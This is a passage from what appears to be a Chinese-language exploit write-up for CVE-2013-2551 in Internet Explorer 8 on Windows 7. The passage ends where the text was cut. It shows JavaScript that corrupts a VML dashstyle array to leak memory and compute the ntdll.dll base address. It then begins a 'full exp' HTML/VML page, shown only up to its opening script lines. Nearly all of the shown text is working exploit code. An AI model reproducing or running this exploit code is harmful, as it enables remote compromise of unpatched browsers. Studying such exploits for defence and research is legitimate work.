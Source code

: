 			vml1.dashstyle.array.item(0x2e+0x16) = baseOfVGX + pe_offset + 0x80;

			var leak = a[i].marginLeft;

			import_directory =
			parseInt(leak.charCodeAt(1).toString(16)+leak.charCodeAt(0).toString(16), 16);

			//find kernel32.dll

			vml1.dashstyle.array.item(0x2e+0x16) = baseOfVGX + import_directory + 0x4C;

			var leak = a[i].marginLeft;

			thunk = parseInt(leak.charCodeAt(0).toString(16), 16);

			//find first function address

			vml1.dashstyle.array.item(0x2e+0x16) = baseOfVGX + thunk;

			var leak = a[i].marginLeft;

			first_function_addr =
			parseInt(leak.charCodeAt(1).toString(16)+leak.charCodeAt(0).toString(16), 16);

			ntdll_base = first_function_addr - 0x47760;

			//return original value

			vml1.dashstyle.array.item(0x2e+0x16) = marginLeftAddress;

			vml1.dashstyle.array.length = length_orig;

			/////////////////////////////////////////////////////////

			alert("base of ntdll.dll : " + ntdll_base.toString(16));

			break;

		}

	}

	return ntdll_base;

### **完整exp**

	<html lang="zh">
		<head>
			<meta http-equiv="x-ua-compatible" content="IE=EmulateIE9" >
		</head>
		<title>cve-2013-2551 win7 sp1 IE8.0</title>
		<style>v\: * { behavior:url(#default#VML); display:inline-block }</style>
		
		<xml:namespace ns="urn:schemas-microsoft-com:vml" prefix="v" />
		
		<body>
			<v:oval>
				<v:stroke id="vml1"/>
			</v:oval>
		</body>
		
		<script>
			var rect_array = new Array();
			var a = new Array();
			